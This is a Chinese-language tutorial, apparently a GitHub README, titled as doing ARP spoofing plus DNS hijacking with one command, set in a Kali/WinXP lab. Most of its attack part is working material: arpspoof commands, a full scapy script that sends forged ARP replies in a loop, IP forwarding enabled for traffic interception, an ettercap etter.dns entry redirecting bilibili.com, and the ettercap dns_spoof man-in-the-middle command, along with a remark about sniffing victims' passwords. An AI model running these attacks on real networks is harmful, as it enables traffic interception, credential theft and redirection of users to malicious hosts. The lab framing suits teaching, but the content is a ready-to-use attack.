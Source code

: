 # 一条命令，实现ARP欺骗+DNS劫持

## 0、前言：在开始前你需要知道的东西：

### （1）一丢丢的计网基础（ARP是什么，DNS是什么，在二层和三层的工作原理）

ARP：在局域网内，数据包交换的形式是帧，帧传播依靠的是MAC地址，而我们只有主机的IP地址，192.168.xx.xx/10.0.xx.xx之类的，ARP协议即是将主机的IP地址转为MAC地址的协议，第一次会在局域网内广播ARP报文询问指定IP对应的MAC的地址，有主机回应就会把其MAC地址单播给询问主机，然后询问主机就会将该IP和MAC地址的对应关系写入ARP缓存表以便下次使用，下次就不用再以广播的方式获取MAC地址了

DNS：一般我们访问一个网页（或者资源）都是以域名的形式，无论是在浏览器里输入URL还是直接点击A标签，都是通过域名的方式访问资源，但是在网络三层中数据包不是靠域名来交换的，而是靠资源的IP，这就需要我们将域名转为IP地址以便传输数据包，DNS就是这样的存在，主机将需要访问的资源域名发送到DNS服务器上查询其IP，再将获得的结果发送回来，并且在主机本地缓存一份，以后访问就先从本地缓存先找起，这点很关键，等会我们就是在本地DNS缓存上作文章。

### （2）一丢丢的Linux基础（基础命令的使用）

没什么好说的，dddd

### （3）一丢丢python基础（能看懂代码即可）

下面有一段Python代码，有助于理解ARP欺骗原理（重点）

### （4）关于ARP和DNS怎么扯到一起

这就涉及到局域网中一个特殊且重要的角色——网关，网关是访问外网所必须的，相当于连接内网和外网的纽带，在访问外网时，主机会将请求先发送给网关，由网关转发请求给指定服务器获取资源，所以也由网关来请求DNS服务器将域名转为IP地址（不甚准确，在本地无缓存的情况下成立），那么如何获取网关的MAC地址（网关的IP一般由路由器或者其他设备在拨号完成后自动分配，好几种情况，只需要知道网关IP会自动分配就行了），没错，就是通过如上提到的ARP协议获取网关的MAC地址完成通信。这不就串起来了。

## 1、ARP欺骗概念（单向欺骗，双向欺骗）+DNS劫持概念：

## ![ARP欺骗](./master/image/ARP欺骗.png)

### ARP单向欺骗：

只欺骗被攻击机，伪造成被攻击机的网关，被攻击机发出的流量都先发送至攻击机

### ARP双向欺骗：

欺骗被攻击机，也欺骗被攻击机实际网关，对被攻击机来说，攻击机（伪造）为其网关，对被攻击机实际网关来说，攻击机（伪造）为被攻击机，实现双向欺骗，无论是攻击机还是被攻击机实际网关发送的流量包都会发送至攻击机。

### DNS劫持（又叫域名劫持）：

![DNS劫持](./master/image/DNS劫持.png)

攻击机向目标机器发送构造好的ARP应答数据包，ARP欺骗成功后，嗅探到对方发出的DNS请求数据包，分析数据包取得ID和端口号后，向目标发送自己构造好的一个DNS返回包，对方收到DNS应答包后，发现ID和端口号全部正确，即把返回数据包中的域名和对应的IP地址保存进DNS缓存表中，而后来的当真实的DNS应答包返回时则被丢弃。

## 2、ARP欺骗+DNS劫持欺骗实验环境：

```python
Kali攻击机：		IP：192.168.32.132			MAC：00:0c:29:df:c8:ef
WinXP被攻击机：		IP：192.168.32.131			MAC：00:0c:29:dc:23:79
网关：				 IP：192.168.32.2			MAC：00:50:56:f8:b1:7d（可用arp -a查看）
```

## 3、ARP（攻击）欺骗：

```python
kali实施arp欺骗命令：（单向，仅欺骗被攻击机）
arpspoof -i eth0 -t 192.168.32.131 192.168.32.2
(双向：arpspoof -i eth0 -t 192.168.32.2 192.168.32.131)
-i：指定使用的监听网卡
-t：攻击主机目标地址 攻击主机网关地址

附：Python脚本版（效果一样的，更有利于理解原理）：
from scapy.layers.l2 import getmacbyip, Ether, ARP
from scapy.sendrecv import sendp
import time

def arp_spoof():
   iface  ="VMware Virtual Ethernet Adapter for VMnet8"

#被攻击机IP和MAC，WinXP
   target_ip = '192.168.32.131'
   target_mac = '00:0c:29:dc:23:79'

#攻击机IP和MAC，kali
#    spoof_ip = '192.168.32.132'
   spoof_mac = '00:0c:29:df:c8:ef'

#网关IP和MAC
   gateway_ip = '192.168.32.2'
   gateway_mac = getmacbyip(gateway_ip)

   while True:
       #构造网络层数据包，欺骗被攻击机，伪造成网关
       packet = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
       sendp(packet, iface=iface)

       #构造网络层数据包，欺骗网关，伪造成被攻击机
       packet = Ether(src=spoof_mac, dst=gateway_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
       sendp(packet, iface)
       
       time.sleep(1);

if __name__ == '__main__':
    arp_spoof()
```

此时在WinXP上使用arp -a命令查看IP和MAC地址对应关系，网关IP（192.168.32.2）对应MAC地址为攻击机IP（192.168.32.132）对应MAC地址（00:0c:29:df:c8:ef）即为成功欺骗，此时WinXP是无法上网的。

继续进阶，修改/proc/sys/net/ipv4/ip_forward的值为1，开启kali的流量转发功能

```shell
#查看ip_forward值
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward
0
#修改其值为1
┌──(root㉿kali)-[~/Desktop]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
#开启成功
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward     
1
```

这时重新实施arp欺骗，欺骗成功后被攻击机是可以上网，但是是把流量转发给攻击机，由攻击机充当其网关的角色来转发流量，实现流量劫持。

可以使用wireshark，fiddler等抓包工具来抓取数据包，获取被攻击机敏感信息如账号密码等（PS：如有兴趣可自行搜索教程，这里重点不是这个，恕不赘述）

经过如上步骤，已达成DNS劫持的前提条件，下面继续实验

## 4、DNS劫持：

### 准备工作：

安装ettercap，一般kali自带的只有文本版，也可以安装图形化界面版

```shell
┌──(root㉿kali)-[~/Desktop]
└─# apt-get install ettercap-graphical

#安装完成后，修改配置文件/etc/ettercap/etter.dns
┌──(root㉿kali)-[~/Desktop]
└─# vim /etc/ettercap/etter.dns 
#在最后一行（任意位置都可以啦，记得把注释去掉）添加如下字段：
域名	DNS记录类型	访问域名时需要映射的IP
例：
www.bilibili.com	A	192.168.32.133
*	PTR	192.168.32.133
注：第三个字段IP是作为Apache/Nginx服务器域名来访问，映射时攻击机会向DNS服务器发出对该域名（IP）的请求，国内服务器无域名或域名未备案的话大概率不能访问
```

配置文件修改好后，可以开始使用工具进行DNS劫持了

### 命令行版：

```shell
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -Tq -i eth0 -M arp:remote -P dns_spoof /192.168.32.131// /192.168.32.2//
# -Tq:T以文本模式运行，q以安静模式运行
# -i 指定网卡
# -M （MITM-attack）指定中间人攻击方式，这里是ARP欺骗
# -P 指定插件（也算攻击方式的一种）
# 192.168.32.131 被攻击机IP
# 192.168.32.2	网关IP
```

运行如上命令后，被攻击机DNS缓存内就被写入污染后的DNS记录，且短时间内存在，可在被攻击机上使用如下命令查看：

```shell
Windows：
ipconfig /displaydns
Linux:
nscd -g（查看DNS统计信息，需要看是否自带此工具）
```

### 图形化界面版：

```shell
#kali终端输入ettercap -G或kali菜单直接搜索ettercap使用
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -G    
```

![step_1](./master/image/step_1.png)

![step_2](./master/image/step_2.png)

![step_3](./master/image/step_3.png)



![step_4](./master/image/step_4.png)



此时访问上面配置文件指定域名时会被定向至指定的IP地址，成功实现DNS劫持，且短时间内生效，发来正确的DNS记录也会被丢弃。这个时候就可以去看看效果了。实验结束记得关闭工具的使用，刷新下DNS缓存及ARP缓存，顺便清除浏览器缓存

```shell
Windows：
#刷新DNS缓存 ipconfig /flushdns
#刷新ARP缓存 ARP -d
```

